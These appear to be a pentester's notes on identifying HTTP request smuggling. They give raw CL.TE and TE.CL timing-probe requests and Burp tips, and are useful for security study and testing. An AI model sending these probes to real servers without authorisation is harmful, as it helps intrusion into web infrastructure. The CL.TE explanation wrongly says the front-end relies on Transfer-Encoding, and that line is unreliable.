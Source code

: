 # HTTP request smuggling

<details><summary>General info</summary></details>

<details><summary>How do HTTP request smuggling vulnerabilities arise?</summary></details>

## <mark style="color:purple;">Identification</mark>

{% hint style="warning" %}
**Important**:&#x20;

* `Connection` header mustn't be set to `close`. Set it to `keep-alive`.
* In early techniques you must use `HTTP/1.1` protocol, not `HTTP/2`. In burp change it using Inspector.
{% endhint %}

### <mark style="color:purple;">**CL.TE**</mark>

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X
```

`Content-Length=4` -> `1` `\r` `\n` `A`

* The **front-end** server processes the initial chunk based on the Transfer-Encoding header, forwarding only part of the request while omitting the `X`.&#x20;
* After processing the first chunk, the **backend** server waits for the next one, causing a noticeable time delay.

### <mark style="color:purple;">TE.CL</mark>

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```

`Content-Length=6` -> `0` `\r` `\n` `\r` `\n` `X`

The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.
